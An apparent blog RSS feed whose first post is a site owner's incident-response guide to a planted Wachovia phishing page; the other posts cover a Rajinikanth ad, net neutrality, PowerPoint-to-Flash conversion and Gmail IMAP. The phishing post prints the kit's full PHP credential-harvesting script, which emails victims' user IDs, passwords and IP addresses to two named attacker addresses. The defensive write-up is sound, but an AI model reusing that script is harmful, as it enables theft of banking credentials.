<p>Please be aware that Wachovia Corporation (“Wachovia”) is the owner of numerous United States and foreign trade marks and services marks used in connection with its financial services and products (the &#8220;Wachovia Marks&#8221;), including the Wachovia wordmark and Wachovia logo.  Wachovia has expended substantial resources to advertise and promote its products and services under the marks and considers the marks to be valuable assets of Wachovia.</p>
<p>It has come to our attention that your company is hosting a known active phishing site.  The active phishing site displays the Wachovia Marks and is intended to defraud customers in an attempt to capture and use their identity.  Network Whois records indicate the IP address of the phishing site is registered to your Internet space.</p>
<p>Accordingly, we request that your site bring down the Phishing web site at:<br />
&lt;&lt; http://&lt;my website&gt;/home/plugins/editors-xtd/confirm.html &gt;&gt;</p></blockquote>
<p>So that&#8217;s how I knew that my site had been compromised by hackers and a <a href="http://en.wikipedia.org/wiki/Phishing">phishing attack</a> code had been injected into my site. <strong>If it has happened to you, do you know what is the right thing to do? How do you fix it? </strong>Well, here is what I did, and I think it is worthwhile to share this information so that it may be useful to others.. So here goes.<br />
<span id="more-316"></span></p>
<h3>Step 1. Disable Your Site</h3>
<p>First, disable your site, bring it down temporarily. The last thing you want is for more people to be scammed by a hacker who compromised your site. You can do that by disabling all access to all the files within your website. If the website is running on unix/linux you can do a &#8220;chmod -R 000 &lt;website-home-directory&gt;&#8221; (Refer to the <a title="Chmod tutorial" href="http://www.zzee.com/solutions/chmod-help.shtml">chmod tutorial here</a>). For those using cpanel, go to the file manager and change the permissions of the document root for the website.</p>
<h3>Step 2. Investigate the Offending Webpage</h3>
<p>Now that no more unsuspecting users can be affected by this phishing attack. Now we dig into the offending webpage that is causing the problem. In my case it was: http://&lt;my website&gt;/home/plugins/editors-xtd/confirm.html</p>
<p>I opened up the html file, and this is what I saw:</p>
<blockquote><p>&#8230;&#8230;</p>
<p>&lt;html xmlns=&#8221;http://www.w3.org/1999/xhtml&#8221;&gt;&lt;head&gt;</p>
<p>&lt;title&gt;Wachovia &#8211; Personal Finance and Business Financial Services&lt;/title&gt;</p>
<p>&#8230;&#8230;</p></blockquote>
<p>Clearly, someone was impersonating the Wachovia website. Now, with phishing, someone is trying to steal your username and password by impersonating some crediable website that needs your username and password to get into. In HTML, this is typically accomplished through &#8216;forms&#8217;, which starts with a `&lt;form&gt;&#8217; tag in HTML. So I dug through the code and I saw two form tags.</p>
<p>The first one was:</p>
<blockquote><p>&lt;form method=&#8221;get&#8221; action=&#8221;http://search.wachovia.com/selfservice/microsites/wachoviaSearchEntry.do?&#8221; name=&#8221;searchForm&#8221; onsubmit=&#8221;return verifyQuery(this.searchString);&#8221;&gt;</p></blockquote>
<p>&#8230;..</p>
<p>This looks fine because the &#8216;action&#8217; parameter points to http://search.wachovia.com/selfservice&#8230;. which is a search script on the Wachovia website. So anyone filling you this form is sendin their data to the Wachovia website and the hacker will not get any information from it.</p>
<p>Now to the second form tag:</p>
<blockquote><p>&lt;form method=&#8221;post&#8221; action=&#8221;screen.php&#8221; name=&#8221;uidAuthForm&#8221; id=&#8221;uidAuthForm&#8221; onsubmit=&#8221;return submitLogin(this)&#8221;&gt;</p>
<p>&#8230;&#8230;</p></blockquote>
<p>Aha! The smoking gun! Why? Well, look at the &#8216;action&#8217; parameter in this &#8216;form&#8217; tag, it says &#8216;screen.php&#8217; which is clearly not a script that is on the Wachovia servers, but something that is hosted on my website! So the hackers installed another script on my system to phish the username and passwords. Now I go see what&#8217;s inside this &#8216;screen.php&#8217; file that is located in the same directory as the &#8216;confirm.html&#8217; file we have been looking at so far.</p>
<h3>Step 3. Isolate the script that is doing the actual phishing attack and find the offenders</h3>
<p>So I open up the &#8216;screen.php&#8217; file and this is what I find:</p>
<blockquote><p>&lt;?php</p>
<p>$ip = getenv(&#8220;REMOTE_ADDR&#8221;);<br />
$datamasii=date(&#8220;D M d, Y g:i a&#8221;);<br />
$userid = $HTTP_POST_VARS["userid"];<br />
$password = $HTTP_POST_VARS["password"];<br />
$mesaj = &#8220;Hello<br />
userid : $userid<br />
password : $password<br />
&#8212;&#8212;&#8211;0WN3d By Louis&#8212;&#8212;&#8212;&#8212;&#8212;-<br />
IP : $ip<br />
DATE : $datamasii<br />
&#8220;;</p>
<p>$recipient = &#8220;cashbug5010@gmail.com,smithgreen@hotmail.com&#8221;;<br />
$subject = &#8220;Take What U need But Make Sure U Cash It Out !!!&#8221;;</p>
<p>mail($recipient,$subject,$mesaj);<br />
mail($to,$subject,$mesaj);<br />
header(&#8220;Location: http://www.wachovia.com/helpcenter/0,,,00.html&#8221;);<br />
?&gt;</p></blockquote>
<p>So here we are! Gotcha! Check out the line &#8216;$recipient = &#8220;cashbug5010@gmail.com,smithgreen@hotmail.com&#8221;;&#8217; Clearly, the phishing attack was being carried out by the following two email addresses: cashbug5010@gmail.com and smithgreen@hotmail.com. Now that I have this much information, what do we do next?</p>
<h3>Step 4. Inform the Authorities</h3>
<p>We give this information to the authorities who can carry the investigation forward. And who are they? First, respond back to the email address that alerted you of this phishing attack (do a &#8216;reply all&#8217; if there were multiple recipients/Cc&#8217;s to the email you received). Also, copy phishing-report@us-cert.gov and cert@cert.org to this email and just give them a copy of the phishing code (in this case it was the file &#8216;screen.php&#8217;) and the offending email addresses you found.</p>
<p>As for now, that is all you can do, and just co-operate with the authorities if they need more information.</p>
<h3>Step 5. Quarantine the Malicious Code and Restore Your Website</h3>
<p>Quarantine the files (by disabling their permission to &#8217;000&#8242;) and now that the code has been quarantined, you can bring your website up again by setting the permission back to as they were earlier (except for the offending code).</p>
<p><strong>DO NOT DELETE THE MALICIOUS CODE BECAUSE IT IS EVIDENCE AGAINST THE PHISHING ATTACK AND EXONERATES YOU! </strong>Otherwise, the authorities may pursue you as an accessory to the crime!</p>
<h3>Step 6. Inform Google That Your Site is Safe Again</h3>
<p>Now, note that the odds are that Google has already put a notice out against your site as a source of a phishing attack. So go to the following URL <a href="http://www.google.com/safebrowsing/report_error/">http://www.google.com/safebrowsing/report_error/</a> to let Google know that the problem has been taken care off and you site is safe again.</p>
<p>And that&#8217;s all you can do for the moment. Make sure your site is secure and you haven&#8217;t given permission to any of your directories to be writable by anyone except you. As for preventing future security breaches, it is always a cat-and-mouse game with hackers and like of you getting smarter and better than the other.</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2009/03/17/if-your-site-has-been-compromised-with-phishing-attack-code/feed/</wfw:commentRss>
		<slash:comments>7</slash:comments>
		</item>
		<item>
		<title>Rajani ka Ishtyle</title>
		<link>http://www.semanticoverload.com/2008/09/03/rajani-ka-ishtyle/</link>
		<comments>http://www.semanticoverload.com/2008/09/03/rajani-ka-ishtyle/#comments</comments>
		<pubDate>Wed, 03 Sep 2008 06:17:46 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[asides]]></category>
		<category><![CDATA[humor]]></category>
		<category><![CDATA[india]]></category>
		<category><![CDATA[internet]]></category>
		<category><![CDATA[video]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[ad]]></category>
		<category><![CDATA[advertisement]]></category>
		<category><![CDATA[castrol]]></category>
		<category><![CDATA[commerical]]></category>
		<category><![CDATA[rajani]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=185</guid>
		<description><![CDATA[Rajani in Castrol Power 1 Commercial]]></description>
				<content:encoded><![CDATA[<p><a href="../../../wp-content/uploads/2008/09/castrol-power-1.wmv">Rajani in Castrol Power 1 Commercial</a></p>
<p><object width="425" height="344"><param name="movie" value="http://www.youtube.com/v/Bh_wP6KJvsE&#038;hl=en&#038;fs=1&#038;rel=0"></param><param name="allowFullScreen" value="true"></param><embed src="http://www.youtube.com/v/Bh_wP6KJvsE&#038;hl=en&#038;fs=1&#038;rel=0" type="application/x-shockwave-flash" allowfullscreen="true" width="425" height="344"></embed></object></p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2008/09/03/rajani-ka-ishtyle/feed/</wfw:commentRss>
		<slash:comments>0</slash:comments>
<enclosure url="http://www.semanticoverload.com/wp-content/uploads/2008/09/castrol-power-1.wmv" length="5830092" type="video/x-ms-wmv" />
		</item>
		<item>
		<title>Net Neutrality: what is it really about?</title>
		<link>http://www.semanticoverload.com/2008/04/25/net-neutrality/</link>
		<comments>http://www.semanticoverload.com/2008/04/25/net-neutrality/#comments</comments>
		<pubDate>Fri, 25 Apr 2008 22:01:41 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[debate]]></category>
		<category><![CDATA[discussion]]></category>
		<category><![CDATA[internet]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[content provider]]></category>
		<category><![CDATA[ISP]]></category>
		<category><![CDATA[net]]></category>
		<category><![CDATA[net neutrality]]></category>
		<category><![CDATA[network provider]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=158</guid>
		<description><![CDATA[Net Neutrality has been an ongoing debate for quite a few years now. In its simplest terms, net neutrality is a principle that states that all traffic on the internet must be treated the same way; that there should be no preferential treatment to a specific kind or class of traffic. The are many camps [...]]]></description>
				<content:encoded><![CDATA[<p><a title="Net neutrality" href="http://en.wikipedia.org/wiki/Network_neutrality">Net Neutrality</a> has been an ongoing debate for quite a few years now. In its simplest terms, net neutrality is a principle that states that all traffic on the internet must be treated the same way; that there should be no preferential treatment to a specific kind or class of traffic. The are many camps for and against net neutrality. Each group fervently advocates its position on the issue, while slinging mud on the other camp. This debate has polarized large sections of stakeholders on the internet. Unfortunately, most of the polarization is based more on propaganda  and prejudice than facts. Investigating the net neutrality issue reveals that the waters are indeed quite muddy.<br />
<span id="more-158"></span><br />
The groups supporting net neutrality &#8212; like <a title="SAVE THE INTERNET Coalition" href="http://www.savetheinternet.com/">SaveTheInternet.com Coalition</a> &#8212; argue that net neutrality is fundamental to the success of the internet. Net Neutrality prevents ISPs from speeding up or slowing down Web content based on its source, ownership or destination. If ISPs are allowed to slow certain web content down and speed others up, based of Service Level Agreements (SLA) with content providers (like Reuters, Fox News, Yahoo, Google, Facebook etc.), then this will result in all big corporations signing SLAs with all ISPs, and individual content providers like bloggers will be left out in the cold, and there is little that can be done against such discrimination. In essence, the advocates argue that net neutrality an extension of free speech, and is necessary to protect free speech on the internet. Other implications of not having net neutrality include ISPs allowing (say) Google&#8217;s pages to load faster than (say) Yahoo&#8217;s (because Google signed an SLA with the ISP), thus denying its users efficient access to their trusted source of information.</p>
<p>The groups opposing net neutrality &#8212; like <a title="Hands Off The Internet" href="http://www.handsoff.org/">Hands Off The Internet Coalition</a> &#8212; argue that heavy regulation of the internet runs against free market economics, and that such restrictions slow down the rate of innovation on the internet. They argue that different kinds of internet traffic have different requirements. For instance, live chat requires less bandwidth, but the traffic cannot be delayed, on the other hand streaming video requires high bandwidth, but can afford some delay because the video is buffered at the viewing computer, downloads can withstand occasional delays and low bandwidth. It makes sense treat each of these traffic streams differently in order to provide a better user experience, but net neutrality prohibits this.</p>
<p>Lets see how the arguments for and against net neutrality really stand up to criticism.</p>
<p>Now, if net neutrality was implemented as a strict regulation, this can give rise to a lot problems. For instance, how do network providers treat spam under net neutrality? Currently, network providers can block spam at the entry point into their network. If the networks are expected to treat all traffic equally, then they have to treat spam the same as other traffic. Which implies that they are having to bear the cost of routing spam on their networks with no income from it. Guess who they will pass that cost on to: the consumers. So is net neutrality really what the consumers want?</p>
<p>If customers subscribed to a pay-per-view service over the internet, then customers have every right to be guaranteed a satisfactory viewing experience. However, the network provider cannot do that under net neutrality because the provider is not allowed to allocate bandwidth for the pay-per-view service. So is net neutrality really helping?</p>
<p>On the other hand, if net neutrality wasn&#8217;t implemented then this would allow network providers to treat different kinds of traffic differently, thus providing a better user experience. But if that were truly an issue then how do different classes of network traffic work well today without so-called &#8216;tiered&#8217; services for different classes of traffic. Answer: there is more bandwidth in the network core than the traffic consumes. As long as there is good admission control on the edge of the Internet, it doesn&#8217;t seem like you need such &#8216;tiered&#8217; services. Wouldn&#8217;t that make the &#8216;tiered&#8217; services argument too weak?</p>
<p>Consider the competition between VoIP services and traditional phone lines. Typically all your phone providers are also ISPs. And VoIP is very sensitive to delay in the traffic, more so than web browsing, streaming video, or downloads. So if the ISPs wanted to discourage their customer from using VoIP services, then they could do that by simply delaying packets for a few seconds randomly. For web browsing and other services, it would only show up as a few seconds delay in a page loading, or a delay in the video starting, which is easily tolerable. But with VoIP, this would show up as a jitter in a voice call. This would make VoIP unusable. Don&#8217;t we need regulations to protect the customers from such practices? Isn&#8217;t net neutrality a way out of this?</p>
<p>So net neutrality, while addressing some issues, opens up other problems which the Internet community will have to deal with. Worse, while it is easy to make a regulation like net neutrality, it is very difficult to enforce it. How do you detect a violation of net neutrality? If &#8216;bad&#8217; ISPs are smart enough, then they can hoodwink any mechanism to detect such violations. It can range from delaying all traffic for a few seconds so that only VoIP services are affected, to dropping only certain kinds of traffic during periods of traffic congestion. The above two techniques is indistinguishable from situations where a `good&#8217; ISP is having traffic management problems and so is forced to delay traffic, or is forced to drop traffic during congestion. So how do you distinguish &#8216;bad&#8217; ISPs from &#8216;good&#8217; one and penalize only the &#8216;bad&#8217; ones? Its not always possible.</p>
<p>So, if net neutrality is more a regulation in theory, than something which can be enforced successfully, and people do realize it, then why do we have groups advocating for it so strongly? What could be gained from it, other than a rhetorical stand on the ideals that they strive for? The answer might surprise you.</p>
<p>Ironically, the arguments being made on both sides of net neutrality fails to address the real issue. In fact, it serves to hide the real issue of why net neutrality has become such a focal point of conflict on the internet today. To understand this better, lets see who are the corporate entities involved in the net neutrality debate. The supporters of net neutrality include the likes of <a title="Google on Net neutrality" href="http://www.google.com/help/netneutrality.html">Google</a>, Yahoo, <a title="eBay on net neutrality" href="http://www.ebaymainstreet.com/federal/net-neutrality/">eBay</a> and <a title="AeA on net neutrality" href="http://www.aeanet.org/publications/AeA_CS_Net_Neutrality.asp">AeA</a>. The opposers of net neutrality include the likes of <a title="harware firms oppose net neutrality" href="http://www.news.com/2100-1028_3-6073629.html">3M, Cisco Systems, Qualcomm</a>, <a title="Verizon, AT&amp;T, and Time Warner oppose net neutrality" href="http://www.freepress.net/news/30594">Verizon, AT&amp;T, and Time Warner</a>. Note that there is a clear division of the functional roles of each camp. The camp which supports net neutrality are all content providers where as the camp which opposes net neutrality are all network infrastructure providers.</p>
<p>Why do content providers like net neutrality? Because it allows the content providers to innovate and come up with new applications and solutions without having to worry about how these application will be treated by the network. Why do network infrastructure providers oppose net neutrality? Because this will aloow for innovation and diversity in network infrastructure to accommodate new applications and solution which can evolve from the Internet. What does this mean? This means that net neutrality is no longer about free speech, or democracy, or free market, or any ideals. Its all about who gets to control the internet and the innovation in it. <strong>Net neutrality, under the hood, is an ongoing battle between content providers and infrastructure providers over who controls the web and the innovation in it.</strong></p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2008/04/25/net-neutrality/feed/</wfw:commentRss>
		<slash:comments>0</slash:comments>
		</item>
		<item>
		<title>Making Your Presentations Portable</title>
		<link>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/</link>
		<comments>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/#comments</comments>
		<pubDate>Mon, 21 Apr 2008 22:32:18 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[web]]></category>
		<category><![CDATA[AuthorPoint Lite]]></category>
		<category><![CDATA[flash]]></category>
		<category><![CDATA[narration]]></category>
		<category><![CDATA[portable]]></category>
		<category><![CDATA[powerpoint]]></category>
		<category><![CDATA[swf]]></category>
		<category><![CDATA[windows]]></category>

		<guid isPermaLink="false">http://www.semanticoverload.com/?p=150</guid>
		<description><![CDATA[I had the following problem(s): I had a fairly large presentation which I had to share among several people for review. Not everyone was running the same version of Powerpoint, and not everyone used Windows. People who wouldn&#8217;t be able to make it to my actual presentation wanted to be able to view it (along [...]]]></description>
				<content:encoded><![CDATA[<p>I had the following problem(s):</p>
<ul>
<li>I had a fairly large presentation which I had to share among several people for review.</li>
<li>Not everyone was running the same version of Powerpoint, and not everyone used Windows.</li>
<li>People who wouldn&#8217;t be able to make it to my actual presentation wanted to be able to view it (along with the voice narration) later.</li>
<li>I wanted it to be accessible and usable by everyone regardless of the OS, the browser, or the presentation software they were using.</li>
</ul>
<p>I figured this was a pretty common problem that many people face and a documented solution would be nice. More so, since someone I demonstrated this solution to now swears by it and can&#8217;t thank me enough. So I figured, why not spread the knowledge :) (Unfortunately, this solution works only if you are using Windows XP/Vista. Sorry, I couldn&#8217;t find the right tools to make it work on MAC OS X.)</p>
<p>Here&#8217;s the bird&#8217;s eye view of my solution:</p>
<ol>
<li>Prep your presentation to be made &#8216;complete&#8217; and &#8216;kiosk-ready&#8217;.</li>
<li> <a href="http://www.download.com/AuthorPOINT-Lite/3000-2075_4-10719205.html">Download and install AuthorPoint Lite</a>.</li>
<li> Import the presentation into AuthorPoint Lite, and preserve the rehearse timings, animations, and (optionally) narration.</li>
<li> Convert the presentation to flash using AuthorPoint Lite.</li>
<li>Upload the generated swf file online for the world to see!</li>
<li> The End.</li>
</ol>
<p><span id="more-150"></span></p>
<h3>Prepping your presentation</h3>
<p>Before you can make a presentation portable, you have got to make sure that the presentation itself has enough information in it to be portable. Also, you have to ensure that the presentation have been configured so that the tools you will use to make it portable can use it to advantage.</p>
<p>So here&#8217;s how you would go about the job:</p>
<p><em><span style="text-decoration: underline;">Ensure all information is available</span></em></p>
<p>When are making a presentation portable, then, more often than not, the people who will access it will not have the luxury of you walking through the presentation for them. So make sure you have notes for each slide for the presentation to be understandable on its own, even without the speaker present. It often a good idea to include the text of your narration for each slide in the Slide Notes section.</p>
<p><em><span style="text-decoration: underline;">Recording Narration</span></em></p>
<p>You also have the choice of recording your narration. You can do this if you would like people to be able to view and <em>hear</em> your presentation online. In order to record your presentation (Assuming you have a workgin microphone to record) you need to do the following:</p>
<ul>
<li>Ensure that you have no automatic animations set. You can do that as follows:
<ol>
<li> Click on the Slide Show menu and choose Custom Animation.</li>
<li>Click on the first item in the Animation Order box on the Order &amp; Timing tab.</li>
<li>Select the On Mouse Click radio button under Start Animation as shown in the figure below.<a href="../../../wp-content/uploads/2008/04/custom-animation.gif"></a></li>
</ol>
</li>
<li> Test your microphone by opening Slide Show -&gt; Record Narration -&gt; Set Microphone Level button. You’ll see the Microphone Check dialog box pop up. Set the level appropriately as shown below:<a href="../../../wp-content/uploads/2008/04/test-microphone.gif"></a></li>
<li> You can adjust the sound quality if you like:<br />
<a href="../../../wp-content/uploads/2008/04/sound-quality.gif"></a></li>
<li> DO NOT check the &#8216;Link the Narrations&#8217; checkbox! This option being unchecked is very important for portability!</li>
<li> Now start recording you narration and manually click through the slides (and animation) as you narrate into the microphone. You can stop anytime by pressing [Esc]. After you reach the last slide, or after you press [Esc], PowerPoint will ask if you&#8217;d like to save the slide timings. Click No. (As shown below):<br />
<a href="../../../wp-content/uploads/2008/04/save-slide-timtings-dialong.gif"></a></li>
<li> Now you can browse through the slides and review your narration by clicking on the  icon. You can delete the narration on each slide and record the narration if necessary.</li>
</ul>
<p><em><span style="text-decoration: underline;">Rehearsing Timing</span></em></p>
<p>Click on the Slide Show menu and choose Rehearse Timings. You&#8217;ll immediately be transferred into Slideshow View, and the narration should begin. You’ll see a Rehearsal toolbar appear:</p>
<p><a href="../../../wp-content/uploads/2008/04/rehearse-timing.gif"></a></p>
<p>Advance through the presentation by advancing to the next slide when the narration for each slide is complete. Also make sure that you step through the animation appropriately. When you&#8217;ve scrolled through the entire presentation, PowerPoint will again ask if you&#8217;d like to save the timings. Click Yes.</p>
<p>Now your presentation is self-contained and complete. However, it is still a .ppt file. To make it portable, you need to convert it to a more portable format. My choice is ShockWave File, or Flash format.</p>
<h3>AuthorPoint Lite</h3>
<p><a title="AuthorPoint Lite" href="http://www.authorgen.com/authorpoint-lite-free/powerpoint-to-flash-converter.aspx">AuthorPoint Lite</a> is a free Powerpoint-to-Flash converter. The neat thing about this software is that it can import all the settings from a powerpoint slide including narration, rehearsed timing, custom animation etc. <a title="AuthorPoint Lite Review" href="http://www.freewaregenius.com/2007/08/01/authorpoint-lite/">Here is a great review on AuthorPoint Lite</a>.</p>
<ul>
<li>Download and install <a title="AuthorPoint Lite" href="http://www.authorgen.com/authorpoint-lite-free/powerpoint-to-flash-converter.aspx">AuthorPoint Lite</a></li>
<li>Import your presentation into AuthorPoint Lite.</li>
<li>Save it as a swf file.</li>
</ul>
<h3>Uploading the swf file</h3>
<p>Now upload the saved swf file to your webserver, and provide a link to it on your website. This swf file is your presentation complete with your narration, animation, slide timings, your slide notes, etc. And the best part is that sinceits a swf file, any browser with a flash plugin can play this file! Truly portable!</p>
<p>Enjoy</p>
<h3>The End</h3>
<p>:)</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2008/04/21/making-your-presentations-portable/feed/</wfw:commentRss>
		<slash:comments>5</slash:comments>
		</item>
		<item>
		<title>Gmail with IMAP &#8212; First Impressions</title>
		<link>http://www.semanticoverload.com/2007/11/04/gmail-with-imap-first-impressions/</link>
		<comments>http://www.semanticoverload.com/2007/11/04/gmail-with-imap-first-impressions/#comments</comments>
		<pubDate>Mon, 05 Nov 2007 04:56:57 +0000</pubDate>
		<dc:creator>Semantic Overload</dc:creator>
				<category><![CDATA[internet]]></category>
		<category><![CDATA[review]]></category>
		<category><![CDATA[tutorial]]></category>
		<category><![CDATA[gmail]]></category>
		<category><![CDATA[imap]]></category>

		<guid isPermaLink="false">http://semanticoverload.gaddarinc.com/?p=132</guid>
		<description><![CDATA[Finally, over a week and a half after the initial announcement, IMAP was finally enabled on all my Gmail accounts. Until now I used POP to access my emails from gmail, and had to use the &#8216;recent:&#8217; option to be able to access my emails from multiple locations. With IMAP, thankfully, that will change soon. [...]]]></description>
				<content:encoded><![CDATA[<p>Finally, over a week and a half after the <a href="http://googleblog.blogspot.com/2007/10/free-imap-for-gmail.html">initial announcement</a>, IMAP was finally enabled on all my <a href="http://www.gmail.com">Gmail</a> accounts. Until now I used POP to access my emails from gmail, and had to use the <a href="http://mail.google.com/support/bin/answer.py?hl=en&#038;answer=47948">&#8216;recent:&#8217; option</a> to be able to access my emails from multiple locations. With IMAP, thankfully, that will change soon.</p>
<p>A quick intro to <a href="http://www.imap.org/">IMAP</a>. <a href="http://blogs.pcworld.com/staffblog/archives/005772.html">As described by Tom Spring from PC World</a>:</p>
<blockquote><p>
<a href="http://www.imap.org/">IMAP</a> is geek speak for Internet Message Access Protocol. &#8230;.<br />
&#8230; with IMAP any changes (sorting, deleting, reading, or otherwise) are reflected across all Gmail interfaces &#8211; be it using Outlook Express, your iPhone, or Web-based Gmail. For example if you create a folder and sort messages into it using your desktop Outlook Express client those changes show up on Web-based Gmail.
 </p></blockquote>
<p>IMAP is a boon for people like me, who check their emails from multiple locations. So I decided to give IMAP support on Gmail a spin, and here&#8217;s what I came up with:</p>
<p>For starts Gmail has done a remarkable job of supporting IMAP. I can understand the technical difficulty in being able to support IMAP on Gmail. Think about it: Gmail moved away from conventional folder based email organization to offer what is essentially a tag-based (label-based) organization of email (although their tagging interface is too cumbersome in my opinion). Given that IMAP is a folder-based email access protocol, reconciling the two is not an easy task. But Google has done a good job of it this time around.</p>
<p>For starts, after you <a href="http://mail.google.com/support/bin/answer.py?answer=77695">enable IMAP</a>, and <a href="http://mail.google.com/support/bin/answer.py?answer=75726">configure your mail client</a> there are changes that you will notice in the web-based Gmail interface.</p>
<ul>
<li>All the folders that you create using your email client will now appear as labels in your web interface.</li>
<li>Certain labels like Trash, or Chats are reserved by gmail. If you try to create a folder by that name, then the folder will appear as &#8216;[imap]/foldername&#8217;</li>
<li>If you have any label of form &#8216;text1/text2&#8242;, they will now appear as folder &#8216;text2&#8242; being a subfolder of folder &#8216;text1&#8242;. So If you have any labels of the form &#8216;family/friend&#8217;, or &#8216;work/spam&#8217;, consider renaming them without a &#8216;/&#8217; before enabling IMAP.</li>
</ul>
<p>So how did tag-based Gmail reconcile with folder-based IMAP?</p>
<ul>
<li>Each label appears as a separate folder in IMAP. </li>
<li>To apply multiple labels, just copy the email to multiple folders. </li>
<li>Moving an email from one folder to another will change the label on the email from the first label to the other.</li>
<li>If you move an email to a sub-folder &#8216;sub&#8217; within a main folder &#8216;main&#8217;, on the web interface, it will show up as being labeled &#8216;main/sub&#8217;.</li>
<li>If you configure you mail client to sent email using gmail&#8217;s smtp server, then every copy of the email is stoed in the &#8216;[Gmail]/Sent Mail&#8217; folder.</li>
</ul>
<p><a href="http://mail.google.com/support/bin/answer.py?answer=77657">Here</a> are the set of IMAP actions and their corresponding web based Gmail actions.</p>
<p>Spam, however, is handled differently. To mark a message as spam, just move it to the &#8216;[gmail]/spam&#8217; folder in the IMAP interface. Simply marking the email as &#8216;spam&#8217; on your mail client (like Thunderbird) will trigger the email client&#8217;s spam filters, but not Gmail&#8217;s.</p>
<h3>Drawbacks</h3>
<ul>
<li>One <del>The only</del> major drawback is that the IMAP&#8217;s default trash folder is different from Gmail&#8217;s Trash folder. There&#8217;s no easy way to fix it. <a href="http://www.techsamurai.net/entry/11/changing-thunderbirds-default-trash-folder">The only fix that I found to work for Thunderbird is here on Tech Samurai</a>. It not the most straight forward config change to make Thunderbird to GMail&#8217;s Trash folder.
</li>
<li> The bigger issue with the simulation of folder-based structure on top of tag-based structure is the following:<br />
If an email has multiple tags (labels) associated with it, then the email shows up in multiple folders on the IMAP client. &#8216;Deleting&#8217; such an email involves deleting (or moving to [Gmail]/Trash) all the virtual copies of the email from all the folders where they reside. This can be a arduous task, especially if do not know all the labels that were applied to the message to begin with (and you dont, if you are using the IMAP interface exclusively.
</li>
</ul>
<p>Overall, a really clean and neat implementation on Google&#8217;s part. Good job Google!</p>
]]></content:encoded>
			<wfw:commentRss>http://www.semanticoverload.com/2007/11/04/gmail-with-imap-first-impressions/feed/</wfw:commentRss>
		<slash:comments>0</slash:comments>
		</item>
	</channel>
</rss>
